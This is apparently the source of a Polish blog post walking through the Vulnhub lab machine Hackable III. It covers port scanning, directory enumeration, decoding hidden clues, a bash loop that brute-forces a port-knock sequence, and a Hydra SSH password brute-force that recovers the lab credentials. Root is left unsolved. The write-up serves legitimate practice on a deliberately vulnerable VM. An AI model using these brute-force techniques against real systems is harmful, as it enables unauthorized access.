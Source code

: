 ```yaml
---
title: "Hackable: III - in progress"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/06/01.png
    image_path: /assets/images/hacking/2021/06/01.png
  - url: /assets/images/hacking/2021/06/02.png
    image_path: /assets/images/hacking/2021/06/02.png
gallery3:
  - url: /assets/images/hacking/2021/06/03.png
    image_path: /assets/images/hacking/2021/06/03.png
gallery4_5:
  - url: /assets/images/hacking/2021/06/04.png
    image_path: /assets/images/hacking/2021/06/04.png
  - url: /assets/images/hacking/2021/06/05.png
    image_path: /assets/images/hacking/2021/06/05.png
---
```

# Wstęp
[Hackable III](https://www.vulnhub.com/entry/hackable-iii,720/)  jest najnowszą maszyną od [Eliasa Soulsa](https://www.vulnhub.com/author/elias-sousa,804/) (stan na lipiec 2021). Oznaczona jest poziomem **medium**. Nie jest tak łatwa, jak opisywane wcześniej maszynki. Jest bardzo podchwytliwa i straciłem nad nią dosyć dużo czasu, ale człowiek uczy się całe życie. Metasploita będę używał, ale nie jest on tutaj głównym narzędziem. Mała uwaga, na XCP-ng musisz nazwę interfejsu sieciowego zmienić w dwóch miejscach. Rozwiązanie podaje na końcu, gdyż to może komuś zepsuć zabawę.
{: .text-justify}
## Zaczynamy
```bash
msf6 > db_nmap -A -p- 172.16.1.103
host          port  proto  name  state     info
----          ----  -----  ----  -----     ----
172.16.1.103  22    tcp    ssh   filtered
172.16.1.103  80    tcp    http  open      Apache httpd 2.4.46 (Ubuntu)
```
Mamy dwa porty, 80 i 22. Jeden jest filtrowany. Zacznijmy od www. Wchodząc na stronę mamy takie coś (Kierujemy się na górny lewy róg) i mamy menu.
{: .text-justify}
{% include gallery id="gallery1_2"  %}
Logowanie nic nam nie daje. W kodzie źródłowym (http://172.16.1.103/login_page/login.html) jest informacja, że to może do końca nie działać. Bawiąc się Burpsuitem i odpalając powyższy link, Burpsuite kieruje nas do  http://172.16.1.103/login.php, a tam jest coś dziwnego, zamiast wyniku z logowania, dostajemy kod źródłowy w PHP. Z początku myślałem, że to jest ułatwienie dla pentestera i PHP nam wyświetla tę informacje, żeby ułatwić zadanie, ale nie. Niezależnie jakie parametry podasz, to jest zwykły kod w HTML-u, tyle że ma rozszerzenie php! Na nic się zda wstrzykiwanie parametrów. Zanim do tego doszedłem minęło trochę czasu, ale to był ciekawy pomysł autora.
{: .text-justify}
{% include gallery id="gallery3"  %}
Sprawdźmy co jest jeszcze na na tym www.
{: .text-justify}
```bash
root@kali:/home/szikers# gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.16.1.103 -x php,txt,html,htm,png,jpg,
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html,htm,png,jpg,
[+] Timeout:                 10s
===============================================================
2021/07/30 18:44:19 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1095]
/home.html            (Status: 200) [Size: 11327]
/login.php            (Status: 200) [Size: 487]
/3.jpg                (Status: 200) [Size: 61259]
/css                  (Status: 301) [Size: 310] [--> http://172.16.1.103/css/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.1.103/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.1.103/config/]
/config.php           (Status: 200) [Size: 507]
/backup               (Status: 301) [Size: 313] [--> http://172.16.1.103/backup/]
/robots.txt           (Status: 200) [Size: 33]
/imagens              (Status: 301) [Size: 314] [--> http://172.16.1.103/imagens/]
/login_page           (Status: 301) [Size: 317] [--> http://172.16.1.103/login_page/]
/server-status        (Status: 403) [Size: 277]

===============================================================
2021/07/30 18:48:55 Finished
=============================================================== 
```
## Zawartość
http://172.16.1.103/backup/ -> wordlist.txt – pewnie hasła do użytkownika
{: .notice--info}
Zawartość http://172.16.1.103/robots.txt 
User-Agente: *
Disallow: /config
{: .notice--info}
http://172.16.1.103/config/ -> 1.txt
tekst zakodowany w Base64 **MTAwMDA=**
```bash
echo MTAwMDA= | base64 -d
10000
```
Mamy pierwszą wartość **10000**, na razie nie wiadomo po co, ale pewnie się to nam przyda.
{: .text-justify}
http://172.16.1.103/css/ -> 2.txt – tutaj mamy kod w Brainfuck. Można to odkodować poprzez stronę, albo przez program Beef.
**++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....**
{: .notice--info}
```bash
root@kali:/home/szikers# beef 2.txt
4444
```
## Knockd
Jest jeszcze 3.jpg, ale tam nie znalazłem nic ciekawego. Nie mówię, że nie ma. Przez dłuższy czas szukałem jakiejś podatności na WWW. Jednak nie mogłem znaleźć. Spróbowałem wejść przez Ssh, ale była blokada. Jeszcze raz przejrzałem kody, przeczytałem notatkę: *Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com*  i nagle mnie olśniło. Do blokowania Ssh używa się Knockd (Trzeba zainstalować w Kali). Bez podania odpowiednich „zapukań” dostęp do Ssh będzie utrudniony. Zazwyczaj podaje się 3 parametry w przeciągu 5 sekund. Dwa pierwsze mamy. 10000 i 4444. Trzeci być może gdzieś jest w tej maszynie, szukałem w pliku 3.jpg, ale nie znalazłem (jak znajdę, zmienię ten wpis). Nie mamy trzeciego numeru, ale możemy spróbować bruteforce, chociaż to może potrwać parę dni. Jest 65536 możliwości (0-65535) na trzeci numer. Napisałem szybko skrypcik.
{: .text-justify}
```bash
#!/bin/bash
for i in {0..65535}; do
knock -v 172.16.1.103 10000 4444 $i
sleep 5
done
#--------- 
```
I co? Nie działa (prawdę mówiąc nie czekałem tyle dni). Niestety to była wina maszyny i XCP-ng. Znalazłem w logach, że knockd nasłuchiwał na ensp03, zamieniłem na eth0. Po zakończeniu działania powyższego skryptu Ssh działał! Użytkownikiem zapewne jest **jubiscleudo**, a hasło pewnie jest w wordlist.txt. Użyjmy Hydry.
{: .text-justify}
```bash
hydra -V -T 64 ssh://172.16.1.103 -l jubiscleudo -P wordlist.txt

[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "maria" - 204 of 303 [child 15] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "onlymy" - 205 of 303 [child 13] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "gabriela" - 206 of 303 [child 4] (0/3)
...
[22][ssh] host: 172.16.1.103   login: jubiscleudo   password: onlymy
```
## Shelltris
W katalogu **scripts** jest plik **tetris.sh**. Po uruchomieniu brakuje w nim pliku getch i program blokuje cały system. Popatrzyłem na kod źródłowy i zobaczyłem, że oryginalny nazywa się **ShellTris**. Ściągnałem cały [kod](https://shellscriptgames.com/shelltris/tarballs/shelltris-1.1.tar.gz). Skompilowałem na swoim shellu plik **getch.c**. I nic. Nie ma root-a. Być może za jakiś czas ktoś rozwiąże problem, jak nie to pewnie zrobi to ktoś inny. Jak znalazłeś rozwiązanie to napisz [kerszi@protonmail.com](mailto:kerszi@protonmail.com)
{: .text-justify}
{% include gallery id="gallery4_5"  %}
Uwaga, jeżeli chcesz, żeby ta maszyna działała na XCP-ng trzeba podczas startu systemu zmienic w Grubie ro na rw init=/bin/bash, potem F10, w /etc/netplan/00-installer-config.yaml zmieniamy na interfejs eth0. Dodatkowo należy zmienić w /etc/default/knockd na KNOCKD_OPTS="-i eth0".
{: .text-justify}
{: .notice--danger}
